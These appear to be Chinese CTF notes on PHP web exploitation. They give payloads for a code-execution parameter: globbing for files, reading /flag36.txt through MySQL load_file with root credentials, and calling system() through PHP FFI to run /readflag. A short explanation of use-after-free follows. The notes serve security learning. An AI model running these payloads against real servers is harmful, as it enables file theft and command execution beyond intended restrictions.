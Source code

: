 ```php
$c=$it=new DirectoryIterator("glob:///*.txt");//找到所有txt文件
foreach($it as $f) {//遍历输出
    printf("%s\n", $f->getFilename());//输出文件名
}exit();
```

### 数据库对象PDO
`PDO` :PHP数据对象提供了一个数据访问抽象层，不管使用哪种数据库，都可以用相同的函数（方法）来查询获取数据。
```php
try {
    $dbh = new PDO($dsn, $user, $pass); //初始化一个PDO对象
    echo "连接成功<br/>";
    /*你还可以进行一次搜索操作
    foreach ($dbh->query('SELECT * from FOO') as $row) {
        print_r($row); //你可以用 echo($GLOBAL); 来看到这些值
    }
    */
    $dbh = null;
} catch (PDOException $e) {
    die ("Error!: " . $e->getMessage() . "<br/>");
}

c=try {$dbh= new PDO('mysql:host=localhost;dbname=ctftraining','root','root');foreach($dbh->query('select load_file("/flag36.txt")')as $row){echo($row[0])."|";}$dbh=null;}catch (PDOException $e){echo $e->getMessage();exit(0);}exit(0);
```

### UAF(use after free)
* 概述
    
    >参见[UAF (Use After Free)漏洞分析及利用](https://blog.csdn.net/qq_31481187/article/details/73612451)

    应用程序调用`free()`释放内存时，如果内存块小于`256kb`,`dlmalloc`并不马上将内存块释放回内存，而是将内存块标记为空闲状态。这么做的原因有两个:一是内存块不一定能马上释放回内核(比如内存块不是位于堆顶端)，二是供应用程序下次申请内存使用(主要原因，我觉得应该是为了提高效率)。当`dlmalloc`种空闲内存达到一定值时`dlmalloc`才将空闲内存释放回内核。如果应用程序申请的内存大于`256kb`，`dlmalloc`调用`mmap()`向内存申请一块内存，返还给应用程序使用。如果应用程序释放的内存大于`256kb`，`dlmalloc`马上调用`munmao()`释放内存。`dlmallloc`不会缓存大于`256kb`的内存块，因为这样的内存块太大了，最好不要长期占用这么大的内存资源。

* 正文

    如此可见，如果`p1`指针指向的地址里面有一个函数`p1[3]=echo`,后来对`p1`空间进行释放，虽然释放了，但是内存还没有归还，还可以继续调用，然后申请一个和`p1`相同大小的`p2`空间，那么系统就还会把`p1`的空间分配给`p2`，此时对`p2`进行修改，就会修改`p1`中的内容，替换函数为`p2[3]=system`，然后再调用`p1[3]`就可以执行系统命令了

### FFI(语言交互接口)

```php
c=$ffi=FFI:cdef("int system(const char *command);");
$a='/readflag > /var/www/html/1.txt';
$ffi->system($a);exit();
```
### 命令构造

>用于system()
